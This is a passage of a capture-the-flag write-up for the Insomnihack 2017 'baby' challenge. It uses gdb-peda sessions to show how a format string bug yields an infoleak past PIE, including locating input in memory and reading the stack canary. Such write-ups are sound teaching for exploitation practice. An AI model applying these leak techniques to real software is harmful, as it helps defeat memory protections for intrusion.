 #### Additional Infoleaks

Now since  `PIE` (along with the other binary protections) is enabled, we will need an additional infoleak in order to know what address we need to jump to. A good place to start would be the format string bug we used to get the stack canary leak. First set a breakpoint for right after the format string bug at `dofmt+0xec`:

```
gdb-peda$ inferior 2
[Switching to inferior 2 [process 3103] (/Hackery/insomnihack17/baby/baby)]
[Switching to thread 2.1 (process 3103)]
#0  0x00007ffff7b06a1d in __libc_recv (fd=0x4, buf=0x7fffffffe4a0, len=0x2, flags=0x0)
    at ../sysdeps/unix/sysv/linux/recv.c:28
28  in ../sysdeps/unix/sysv/linux/recv.c
gdb-peda$ b *dofmt+0xec
Breakpoint 1 at 0x5555555555b4
gdb-peda$ c
Continuing.
```

then we trigger the breakpoint for the format string option with the input `15935728`:
```
Welcome to baby's first pwn.
Pick your favorite vuln : 
   1. Stack overflow
   2. Format string
   3. Heap Overflow
   4. Exit
Your choice > 2
Simply type '\n' to return
Your format > 15935728
15935728
```

Now that we are at the breakpoint, let's see where our input is stored:
```
gdb-peda$ find 15935728
Searching for '15935728' in: None ranges
Found 2 results, display max 2 items:
 [heap] : 0x55555575af30 ("15935728\n")
[stack] : 0x7fffffffe070 ("15935728\n")
```

this might be a bit of a pain, but we can use telescope to analyze this section of memory. It will essentially just look at a region of memory that we give it, and tell us about the data there (such as if it is a pointer to libc). Here we just look at 200 lines, starting at `0x7fffffffe070`.

```
gdb-peda$ telescope 0x7fffffffe070 200
```

just going through the input, we can see the stack canary here:

```
1032| 0x7fffffffe478 --> 0xf2f8acf6f7458300 
```
